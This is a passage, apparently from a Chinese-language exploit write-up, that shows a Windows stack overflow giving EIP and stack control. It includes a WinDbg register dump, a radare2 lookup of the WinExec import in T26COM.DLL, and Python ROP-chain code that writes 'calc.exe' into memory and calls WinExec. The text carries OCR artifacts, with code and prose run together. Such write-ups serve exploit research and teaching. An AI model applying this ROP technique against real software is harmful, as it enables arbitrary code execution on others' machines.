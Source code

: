 攻击者现在拥有完整的EIP和堆栈控制，允许构建适当的ROP链。



```
0：000&gt; r
    eax = 00000000 ebx = ffffffff ecx = 04559138 edx = 0000ffff esi = 62626262 edi = 5f86ecc8
    eip = deadbeef esp = 0455926c ebp = 62626262 iopl = 0 nv up ei ng nz na pe nc
    cs = 001b ss = 0023 ds = 0023 es = 0023 fs = 003b gs = 0000 efl = 00010286
    deadbeef ?? ???
    0：000&gt; dc esp
    0455926c 61616161 61616162 61616163 61616164 aaaabaaacaaadaaa
    0455927c 61616165 61616166 61616167 61616168 eaaafaaagaaahaaa
    0455928c 61616169 6161616a 6161616b 6161616c iaaajaaakaaalaaa
    0455929c 6161616d 6161616e 6161616f 61616170 maaanaaaoaaapaaa
    045592ac 61616171 61616172 61616173 61616174 qaaaraaasaaataaa
    045592bc 61616175 61616176 61616177 61616178 uaaavaaawaaaxaaa
    045592cc 61616179 6261617a 62616162 62616163 yaaazaabbaabcaab
    045592dc 62616164 62616165 62616166 62616167 daabeaabfaabgaab
```

这时候，攻击者可以通过将一个DLL（S）的导入表导入ntdll中来尝试检索WinExec。从ntdll的一个偏移可以检索到Kernel32。从Kernel32，可以检索到WinExec的偏移量，并且可以执行直接命令。或者…



```
$ r2 -q -c'ii〜WinExec'T26COM.DLL
    ordinal = 110 plt = 0x3d46c47c bind = NONE type = FUNC name = KERNEL32.dll_WinExec
... WinExec可以由一个已经加载的DLL导入并且攻击者可以简单地使用该地址。编译一个简单的ROP链以将字符串calc.exe放入内存并传递给WinExec函数指针。 
    command = ['calc'，'.exe'，' 0  0  0  0']
    for i,substr in enumerate(command):
        payload += pop_ecx_ret_8                # pop ecx; ret 8
        payload += p32(writable_addr + (i*4))   # Buffer to write the command
        payload += pop_eax_ret                  # pop eax; ret
        payload += p32(0xdeadbeec)              # eaten by ret 8
        payload += p32(0xdeadbeed)              # eaten by ret 8
        payload += substr                       # Current four bytes to write
        payload += write_mem                    # mov dword [ecx], eax; xor eax, eax
    ret
```

一旦命令字符串在内存中，取值WinExec指针并使用缓冲区调用它想执行的命令。



```
＃Deref WinExec import
   payload += pop_edi_esi_ebx_ret
    payload += p32(winexec-0x64)    # pop edi (offset due to [edi + 0x64])
    payload += p32(0xdeadbeee)      # eaten by pop esi
    payload += p32(0xdeadbeef)      # eaten by pop ebx
    # Call WinExec with buffer pointing to calc.exe
    payload += deref_edi_call       # mov esi, dword [edi + 0x64]; call esi
    payload += p32(writable_addr)   # Buffer with command
    payload += p32(1)               # Display the calc (0 will hide the command output)
```
